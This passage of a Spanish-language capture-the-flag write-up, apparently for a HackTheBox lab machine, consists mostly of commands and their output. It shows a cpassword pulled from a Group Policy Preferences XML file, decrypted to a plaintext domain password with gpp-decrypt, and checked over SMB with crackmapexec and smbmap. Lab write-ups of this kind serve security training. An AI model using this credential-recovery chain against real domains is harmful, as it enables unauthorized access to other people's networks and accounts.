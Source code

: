 Vamos a tratar de visualizar el contenido de dicho archivo:

```bash
❯ cat active.htb/Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="utf-8"?>
   2   │ <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active
       │ .htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U
       │ " newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8
       │ pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
   3   │ </Groups>
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Vamos a filtrar por la información que nos interesa, que es el campo `cpassword` y `userName`:

```bash
❯ cat active.htb/Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml | grep -o 'cpassword="[^"]\+"\|userName="[^"]\+"'
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```

Con la utilidad `gpp-decrypt` podemos obtener la contraseña en texto claro, en este caso para el usuario `active.htb\SVC_TGS`.

```bash
❯ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Como siempre, guardamos las credenciales que identifiquemos y vamos a validarlas:

```bash
❯ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] 
active.htb\SVC_TGS:GPPstillStandingStrong2k18
❯ smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```
